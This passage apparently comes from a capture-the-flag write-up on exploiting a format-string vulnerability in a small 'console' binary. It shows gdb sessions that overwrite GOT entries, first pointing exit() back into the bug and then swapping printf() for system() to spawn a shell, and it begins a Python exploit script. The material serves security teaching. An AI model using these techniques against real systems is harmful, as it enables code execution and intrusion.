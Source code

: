 ```
Config action: ^C
Program received signal SIGINT, Interrupt.
0x00007ffff7b0cba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      ../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb) set {int}0x601258=0x4009bd
(gdb) c
Continuing.
e asdf
Exit message set!
asdfConfig action: e asdf
Exit message set!
asdfConfig action:
```

As you can see, we have managed to force the vulnerability to run multiple times. While we're here, let's also overwrite the GOT entry for ```printf()``` with ```system()``` and see if we can get a shell. Note that we will have to do 2 separate 4 byte writes to write the 64 bit pointer to ```system()``` into the GOT entry.

```
Program received signal SIGINT, Interrupt.
0x00007ffff7b0cba0 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:81
81      in ../sysdeps/unix/syscall-template.S
(gdb) p system
$3 = {<text variable, no debug info>} 0x7ffff7a72490 <__libc_system>
(gdb) set {int}0x601224=0x007fff
(gdb) set {int}0x601220=0xf7a72490
(gdb) c
Continuing.
e /bin/sh
Exit message set!
$ ls
calc_system_fmt_str.py  compile_input.sh  config-console_modified.c  flag.txt  hex    input.py  old  printf_locations  shell    test    test32.c
calc_system.py          config-console.c  console                    hack.txt  input  log       out  README.md         shell.c  test32  test.c
$
```

So there we have validation of our plan. Those who have done this problem or read the source might notice that it would also be possible to overwrite the GOT entry for ```strtok``` so that we wouldn't have to enter ```e /bin/sh```, but simply ```/bin/sh``` to execute ```system("/bin/sh")```. Then the program wouldn't have to forfeit its ability to print to the console, but our approach works nonetheless.

Now we have to craft format strings to do this task. We use the python script ```input.py``` to redirect call to ```exit()```  and leak the GOT address of ```printf()```.

First we import necessary libraries for packing hex values into strings and define relevant constants gleaned from our adventures in gdb.

```Python
import struct

LOOP = 0x4009bd
EXIT_GOT = 0x601258
PRINTF_GOT = 0x601220
```
